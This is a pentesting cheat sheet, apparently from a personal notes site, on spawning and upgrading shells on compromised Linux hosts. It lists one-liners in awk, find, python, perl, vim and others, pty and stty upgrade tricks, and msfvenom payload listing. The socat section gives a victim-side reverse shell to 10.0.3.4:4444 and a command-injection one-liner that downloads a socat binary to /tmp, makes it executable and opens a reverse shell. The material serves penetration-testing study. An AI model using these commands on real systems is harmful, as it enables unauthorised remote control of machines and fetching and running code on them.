 ```yaml
---
title: Spawn a shell
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - terminal
  - shells
---
```

# Spawn a shell

??? abstract "All about shells"
    | **Shell Type** | **Description** |
    | ---- | ------|
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.  |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box. |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


Webshell is a script written in a language that is executed by a server. Web shell are not fully interactive. 

??? note "Resources for upgrading simple shells"
    - [https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html).
    - [Cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
    - [Shell creation](https://rosettacode.org/wiki/Execute_a_system_command).
    - [About webshells](https://github.com/BlackArch/webshells).
    - 


Sidenote: Also, you can generate a webshell by using  msfvenom

## Clasification of shells

On a Linux system, the shell is a program that takes input from the user via the keyboard and passes these commands to the operating system to perform a specific function.

There are three main types of shell connections:

| **Shell Type** |  **Description** | 
| ----------- | -------------- |
| [Reverse shell](reverse-shells.md) |  Initiates a connection back to a "listener" on our attack box. | 
| [Bind shells](bind-shells.md) | "Binds" to a specific port on the target host and waits for a connection from our attack box. | 
| [Web shells](web-shells.md) | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command. |


## Spawn a shell

### awk

```bash
awk 'BEGIN {system("/bin/sh")}'
```


### bash

```bash
# Upgrade shell with running these commands all at once:

SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```


```bash
bash -i

# Using echo
echo 'os.system('/bin/bash')'
```


### find 

```bash
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
# This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.

find . -exec /bin/sh \; -quit
# This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
```


### lua

```bash
lua: os.execute(‘/bin/sh’)
```
  

### msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```

Also msfvenom can use metasploit payloads under “cmd/unix”  to generate one-liner bind or reverse shells. List options with:

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'
```



### perl

```bash
perl -e 'exec "/bin/sh";'

perl:  exec "/bin/sh";
```


### python

```bash
 # using python for a pseudo terminal
python -c 'import os; os.system("/bin/sh")'
```

```bash
 # using python for a pseudo terminal
python -c 'import pty; pty.spawn("/bin/bash")'

python3 -c "import pty;pty.spawn('/bin/bash')"
```

### ruby

```bash
ruby:  exec "/bin/sh";
```


### ssh

```bash
/bin/sh -i
```


### socat

```bash
# Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, there exists other options. There are standalone binaries that can be downloaded from this Github repo: [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries)

With a command injection vuln, it’s possible to download the correct architecture `socat` binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

On Kali, run:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

and you’ll catch a fully interactive TTY session. It supports tab-completion, SIGINT/SIGSTP support, vim, up arrow history, etc. It’s a full terminal. 

### stty options

```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Ctrl-Z
 

# In Kali
$ stty raw -echo
$ fg
```
  
```bash
# In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty size
stty rows <num> columns <cols>

# In one line:
reset; export SHELL=bash; export TERM=xterm-256color; stty rows <num> columns <cols>

```

### VIM

```bash
vim -c ':!/bin/sh'
```

**VIM escape**:

```shell-session
vim
:set shell=/bin/sh
:shell
```